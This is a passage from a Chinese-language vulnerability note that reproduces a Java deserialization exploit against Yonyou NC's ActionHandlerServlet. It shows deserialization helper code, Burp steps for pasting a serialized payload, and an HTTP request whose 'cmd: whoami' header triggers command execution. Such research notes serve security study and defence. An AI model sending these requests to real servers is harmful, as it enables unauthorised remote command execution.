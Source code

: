 ```java
    public static void unserialize(String args) throws IOException, ClassNotFoundException {
        FileInputStream fileInputStream = new FileInputStream(args);
        ObjectInputStream ois = new ObjectInputStream(fileInputStream);

//        ois.readObject();
        System.out.println( ois.readObject());
    }

    public static byte[] getBytesByFile(String pathStr) {
        File file = new File(pathStr);
        try {
            FileInputStream fis = new FileInputStream(file);
            ByteArrayOutputStream bos = new ByteArrayOutputStream(1000);
            byte[] b = new byte[1000];
            int n;
            while ((n = fis.read(b)) != -1) {
                bos.write(b, 0, n);
            }
            fis.close();
            byte[] data = bos.toByteArray();
            bos.close();
            return data;
        } catch (Exception e) {
            e.printStackTrace();
        }
        return null;
    }
}

```

burp -> Paste from file -> 粘贴 `ActionHandlerSer.bin.gz` 作为 Post data

```
POST /servlet/~aert/com.ufida.zior.console.ActionHandlerServlet HTTP/1.1
Host: 192.168.50.13:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.3820.170 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
cmd: whoami
Content-Length: 2327

Post data
```

![image](https://user-images.githubusercontent.com/84888757/227792646-2eb5ef9a-0d25-41a4-9c8a-95420026a63d.png)

# 0x05 参考链接
- https://cn-sec.com/archives/786526.html
- [用友NC65反序列化回显利用](https://github.com/reidmu/sec-note/blob/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/%E7%94%A8%E5%8F%8B/%E7%94%A8%E5%8F%8BNC65/%E7%94%A8%E5%8F%8BNC65%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9B%9E%E6%98%BE%E5%88%A9%E7%94%A8.md)
